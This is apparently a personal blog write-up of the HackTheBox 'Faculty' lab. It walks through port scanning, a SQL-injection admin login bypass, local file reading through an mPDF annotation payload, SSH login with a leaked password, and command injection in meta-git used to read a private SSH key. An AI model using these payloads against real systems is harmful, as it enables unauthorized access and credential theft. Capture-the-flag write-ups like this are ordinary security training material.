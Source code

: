 +++
author = "Khaled Ngm"
title = "Faculty write-up (HackTheBox)"
date = "2022-10-14"
description = ""
+++

# Faculty write-up HackTheBox
![faculty](/images/faculty.png)

### 1. Port Scan Enumuration
### 2. Directory Fuzzing
### 3. Exploitation
### 4. Privilege Escalation
* ### USER
* ### ROOT

## Port Scan (Nmap)
* First We will scan target with nmap ``nmap -sV -sC 10.10.11.169``
* I found two open ports ``ssh`` and ``http``
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-13 15:19 EDT
Nmap scan report for faculty.htb (10.10.11.169)
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: School Faculty Scheduling System
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.91 seconds

```
## Directory Fuzzing 
I started to Fuzz directory using diresearch using
``python3 dirsearch.py -u http://faculty.htb``

I have found these directories .
```
Target: http://faculty.htb/

[15:22:15] Starting: 
[15:22:38] 301 -  178B  - /admin  ->  http://faculty.htb/admin/             
[15:22:39] 302 -   14KB - /admin/  ->  login.php                            
[15:22:39] 302 -   14KB - /admin/?/login  ->  login.php                     
[15:22:39] 200 -    3KB - /admin/home.php                                   
[15:22:39] 200 -   17B  - /admin/download.php                               
[15:22:39] 200 -    5KB - /admin/login.php                                  
[15:22:39] 302 -   14KB - /admin/index.php  ->  login.php                   
[15:23:06] 200 -    3KB - /header.php                                       
[15:23:08] 302 -   12KB - /index.php  ->  login.php                         
[15:23:12] 200 -    5KB - /login.php                                        
[15:23:37] 500 -    0B  - /test.php  
```
## Exploitation
* lets navigate into ``http://faculty.htb/admin/login``
* I tried to inject input with single qoute and I got this error .

 ![admin](/images/admin.png)
* I saved this path as draft ``/var/www/scheduling/admin/admin_class.php ``
* I used this payload to login as admin  ``admin'or 1=1#`` and this was successful .
* After a minuites of checking functions I found **download** button at **Faculty list** that use **MPDF library** that convert html to pdf file .
* After a minutes of enum I found that it's affected with local file inclusion check [here](https://www.exploit-db.com/exploits/50995) .

* I decoded this payload ``<annotation file="/var/www/scheduling/admin/admin_class.php" content=""  icon="Graph" title="Attached File: " pos-x="195" />`` 
   to urlencode then base64 and replaced it with burp proxy and I checkded file content that contain ``db_connect.php``.
* I repeated this step to get db password . 

   ![chef](/images/chef.png)

* pass > Co.met06aci.dly53ro.per

* I also read  ``/etc/passwd`` and I got 2 users 
``` 
gbyolo
developer
```  
* Lets try to connect to gbyolo using ssh ``ssh gbyolo@10.10.11.169`` with ``Co.met06aci.dly53ro.per`` password ... success ! .

## Privilege Escalation (User)

* I used ``sudo -l`` command to see if this user can run any command with high priv .

```
-bash-5.0$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```
* If we take a look , we see that gbyolo can run meta-git as developer and I found [RCE](https://hackerone.com/reports/728040) for meta-git module we can use to esclate our priv .

* lets run module as developer user ``sudo -u developer meta-git clone 'ngm||whoami'`` .
![meta-git](/images/git.png)

* We can now get ssh key that located at ``~/.ssh/id_rsa`` using command ``sudo -u developer meta-git clone 'ngm||cat ~/.ssh/id_rsa'`` , I copied ssh key to ``dev.key`` with permission ``chmod 600 dev.key``.

* I used ``ssh -i dev.key developer@10.10.11.169`` to login ssh .

# Thanks
